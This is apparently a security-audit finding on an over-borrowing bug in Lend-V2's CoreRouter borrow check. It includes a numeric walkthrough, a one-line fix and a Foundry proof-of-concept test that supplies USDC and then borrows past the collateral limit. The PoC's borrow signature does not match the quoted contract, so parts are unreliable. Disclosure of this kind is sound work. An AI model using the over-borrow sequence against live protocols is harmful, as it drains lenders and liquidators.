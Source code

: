 **A user can borrow amount beyond collateral limit in Lend-Protocol**

_Bug Severity: High_

_Target:_
https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2%2Fsrc%2FLayerZero%2FCoreRouter.sol#L145
 

**Summary:**

The borrow function is used to borrow debt from the protocol, and the function does not check borrowed and collateral properly, the require checks preBorrowAmount ( currentBorrowBalance ) instead of postBorrowAmount ( currentBorrowBalance + _amount ) this will allow borrowers to borrow debt more than their collateral


```solidity
// CoreRouter.sol
    function borrow(uint256 _amount, address _token) external {
    
     // ... existed code

        (uint256 borrowed, uint256 collateral) =
            lendStorage.getHypotheticalAccountLiquidityCollateral(msg.sender, LToken(payable(_lToken)), 0, _amount);

        uint256 borrowAmount = currentBorrow.borrowIndex != 0
            ? ((borrowed * LTokenInterface(_lToken).borrowIndex()) / currentBorrow.borrowIndex)
            : 0;

@audit ---> This require will allow over borrowing because it checks only preBorrowAmount, to prevent this bug protocol has to change borrowAmount to borrowed

         require(collateral >= borrowAmount, "Insufficient collateral");

       // ... existed code

        // Emit BorrowSuccess event
        emit BorrowSuccess(msg.sender, _lToken, lendStorage.getBorrowBalance(msg.sender, _lToken).amount);
    }
```



**Vulnerability Details:**

A. A User deposited $1000 for example, and the collateral factor (LTV) is 0.8e18 (80%), that means the User has a chance to borrow $800

B. The User borrowed $500, the remaining borrowable balance = $300

C. The User tried to borrow $400 even though his available amount is $300

D. The function checks if the borrowAmount which $500 is equal or less than collateral.

E. The borrow function has indeed identified that the collateral > $500

F. The borrower has received $400, while his currentBorrowBalance is $500. that means the borrower has borrowed $900 instead of $800,that extra $100 will fall the user's debt underCollateralized.



**Impact:**

- Loss of protocol and Liquidators funds because the user's collateral can not pay the debt

- The protocol has to take responsibilities of these losses

- While the Liquidators will not receive their incentives.



**Recommendation:**

Change borrowAmount in require

```solidity

// from this
require(collateral >= borrowAmount, "Insufficient collateral");

// to this
require(collateral >= borrowed, "Insufficient collateral");

// borrowAmount = currentBorrowBalance e.g $500
// borrowed = currentBorrowBalance + _amount e.g $500 + $400 = $900.
```

**Proof of concept (PoC):**

The below PoC shows how a user deposited 1000 USDC and borrow 500 USDC first, then re-borrow 400 USDC even though the collateral factor (LTV) is 80% which is 800 USDC.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.23;

import {Test} from "forge-std/Test.sol";
import {console2} from "forge-std/console2.sol";
import {IERC20} from "../src/interfaces/IERC20.sol";



interface ICoreRouter {
    function supply(uint256 amount, address token) external;
    function borrow(address token, uint amount) external;
    function redeem(address token, uint amount) external;
}


contract LendOverBorrow is Test {

    address public USDC = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
    address public CoreRouter = 0x55b330049d46380BF08890EC21b88406eBFd20B0;
    address public User = 0x37305B1cD40574E4C5Ce33f8e8306Be057fD7341;


function setUp() public {

    vm.createSelectFork(vm.envString("ETH_RPC_URL"), 19000000);

       deal(USDC, User, 10_000e6);

       uint bal = IERC20(USDC).balanceOf(User);
       console2.log("USDC Balance:", bal);

     
          vm.startPrank(User);
     IERC20(USDC).approve(CoreRouter, 1_000e6);


     console2.log("USDC Balance before deposit:", IERC20(USDC).balanceOf(User));

     console2.log("Allowance:", IERC20(USDC).allowance(User, CoreRouter));

     ICoreRouter(CoreRouter).supply(1_000e6, USDC);
     vm.stopPrank();
}

function test_over_borrow() public {
    vm.startPrank(User);

     ICoreRouter(CoreRouter).borrow(USDC, 500e6); 

     ICoreRouter(CoreRouter).borrow(USDC, 400e6); // Misali overly borrow

    vm.stopPrank();
}
}
```

